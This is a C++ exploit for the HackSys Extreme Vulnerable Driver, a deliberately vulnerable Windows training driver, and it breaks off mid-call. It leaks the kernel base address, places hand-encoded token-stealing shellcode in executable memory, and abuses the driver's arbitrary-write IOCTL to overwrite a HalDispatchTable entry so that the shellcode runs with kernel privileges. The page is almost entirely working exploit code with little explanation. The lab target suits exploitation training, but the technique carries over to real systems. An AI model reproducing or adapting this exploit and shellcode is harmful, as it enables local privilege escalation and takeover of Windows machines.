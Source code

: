 ```
//HalQuerySystemInformation#include &lt;iostream&gt;#include &lt;string.h&gt;#include &lt;Windows.h&gt;using namespace std;#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)#define HEVD_IOCTL_ARBITRARY_WRITE                               IOCTL(0x802)typedef struct SYSTEM_MODULE `{`    ULONG                Reserved1;    ULONG                Reserved2;    PVOID                ImageBaseAddress;    ULONG                ImageSize;    ULONG                Flags;    WORD                 Id;    WORD                 Rank;    WORD                 LoadCount;    WORD                 NameOffset;    CHAR                 Name[256];`}`SYSTEM_MODULE, * PSYSTEM_MODULE;typedef struct SYSTEM_MODULE_INFORMATION`{`    ULONG                ModulesCount;    SYSTEM_MODULE        Modules[1];`}` SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;typedef enum _SYSTEM_INFORMATION_CLASS`{`    SystemModuleInformation = 0xB`}` SYSTEM_INFORMATION_CLASS;typedef struct _WRITE_WHAT_WHERE`{`    PULONG_PTR What;    PULONG_PTR Where;`}` WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;typedef enum _KPROFILE_SOURCE `{`    ProfileTime,    ProfileAlignmentFixup,    ProfileTotalIssues,    ProfilePipelineDry,    ProfileLoadInstructions,    ProfilePipelineFrozen,    ProfileBranchInstructions,    ProfileTotalNonissues,    ProfileDcacheMisses,    ProfileIcacheMisses,    ProfileCacheMisses,    ProfileBranchMispredictions,    ProfileStoreInstructions,    ProfileFpInstructions,    ProfileIntegerInstructions,    Profile2Issue,    Profile3Issue,    Profile4Issue,    ProfileSpecialInstructions,    ProfileTotalCycles,    ProfileIcacheIssues,    ProfileDcacheAccesses,    ProfileMemoryBarrierCycles,    ProfileLoadLinkedIssues,    ProfileMaximum`}` KPROFILE_SOURCE, * PKPROFILE_SOURCE;typedef NTSTATUS(WINAPI* PNtQuerySystemInformation)(    __in SYSTEM_INFORMATION_CLASS SystemInformationClass,    __inout PVOID SystemInformation,    __in ULONG SystemInformationLength,    __out_opt PULONG ReturnLength    );typedef NTSTATUS(WINAPI* PNtQueryIntervalProfile)(    __in KPROFILE_SOURCE ProfileSource,    __in ULONG* Interval);typedef NTSTATUS(WINAPI* PNtSetIntervalProfile)(    __in ULONG* Interval,    __in KPROFILE_SOURCE ProfileSource);INT32 GetKernelBaseAddress()`{`    //Get NtQuerySystemInformation Address    PNtQuerySystemInformation NtQuerySystemInformation =(PNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"),"NtQuerySystemInformation");    if (!NtQuerySystemInformation)`{`        cout &lt;&lt; "[!] Failed to Get the Address of NtQuerySystemInformation." &lt;&lt; endl;        cout &lt;&lt; "[!] Last Error:" &lt;&lt; GetLastError() &lt;&lt; endl;        exit(1);    `}`    ULONG len = 0;    //Get Buffer Length    NtQuerySystemInformation(SystemModuleInformation,NULL,0,&amp;len);    //Allocate Memory    PSYSTEM_MODULE_INFORMATION PModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(NULL,len,MEM_RESERVE | MEM_COMMIT,PAGE_EXECUTE_READWRITE);    //Get SYSTEM_MODULE_INFORMATION     NTSTATUS Status = NtQuerySystemInformation(SystemModuleInformation,PModuleInfo,len,&amp;len);    if (Status != (NTSTATUS)0x0)`{`        cout &lt;&lt; "[!] NtQuerySystemInformation Failed!" &lt;&lt; endl;        exit(1);    `}`    PVOID KernelImageBase = PModuleInfo-&gt;Modules[0].ImageBaseAddress;    cout &lt;&lt; "[&gt;] Kernel base address: 0x" &lt;&lt; hex &lt;&lt; KernelImageBase &lt;&lt; endl;    return (INT32)KernelImageBase;`}`int main() `{`    HANDLE hFile = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, NULL, NULL);    if (hFile == INVALID_HANDLE_VALUE) `{`        cout &lt;&lt; "[!] No Handle to HackSysExtremeVulnerableDriver" &lt;&lt; endl;        exit(1);    `}`    cout &lt;&lt; "[&gt;] Handle to HackSysExtremeVulnerableDriver: 0x" &lt;&lt; hex &lt;&lt; (INT32)hFile &lt;&lt; endl;    INT32 KrBase = GetKernelBaseAddress();    INT32 HalDispatchTable_Address = KrBase + 0x0012b3f8;    INT32 HalQuerySystemInformation_Address = HalDispatchTable_Address + 0x4;    INT32 HalSetSystemInformation_Address = HalDispatchTable_Address + 0x8;     //HalQuerySystemInformation_Address Offset 0x912    CHAR* SC = (CHAR*)VirtualAlloc(0, 0x60, 0x3000, 0x40);    ZeroMemory(SC, 0x60);    __asm `{`        pushad;        mov eax, HalSetSystemInformation_Address;        mov ebx, HalQuerySystemInformation_Address;        mov edi, SC;        mov[edi], 0x60;        mov dword ptr[edi + 0x1], 0x000000E8;        mov dword ptr[edi + 0x5], 0x588B5800;        mov dword ptr[edi + 0x9], 0x4F488B4B;        mov dword ptr[edi + 0xD], 0xEA81138B;        mov dword ptr[edi + 0x11], 0x00000912;        mov dword ptr[edi + 0x15], 0x90901189;        mov dword ptr[edi + 0x19], 0x8B64C031;        mov dword ptr[edi + 0x1D], 0x00012480;        mov dword ptr[edi + 0x21], 0x50408B00;        mov dword ptr[edi + 0x25], 0x04BAC189;        mov dword ptr[edi + 0x29], 0x8B000000;        mov dword ptr[edi + 0x2D], 0x0000B880;        mov dword ptr[edi + 0x31], 0x00B82D00;        mov dword ptr[edi + 0x35], 0x90390000;        mov dword ptr[edi + 0x39], 0x000000B4;        mov dword ptr[edi + 0x3D], 0x908BED75;        mov dword ptr[edi + 0x41], 0x000000F8;        mov dword ptr[edi + 0x45], 0x00F89189;        mov dword ptr[edi + 0x49], 0x31610000;        mov dword ptr[edi + 0x4D], 0x0000C3C0;        mov dword ptr[edi + 0x51], eax;        mov dword ptr[edi + 0x55], ebx;        popad;    `}`    PULONG_PTR* PShellcode = (PULONG_PTR*)&amp;SC;    PWRITE_WHAT_WHERE Buffer;    Buffer = (WRITE_WHAT_WHERE*)malloc(sizeof(WRITE_WHAT_WHERE));    ZeroMemory(Buffer, sizeof(WRITE_WHAT_WHERE));    Buffer-&gt;Where = (PULONG_PTR)HalQuerySystemInformation_Address;    Buffer-&gt;What = (PULONG_PTR)PShellcode;    DWORD size_returned = 0;    BOOL is_ok = DeviceIoControl(hFile, HEVD_IOCTL_ARBITRARY_WRITE, Buffer, sizeof(WRITE_WHAT_WHERE), NULL, 0, &amp;size_returned, NUL
```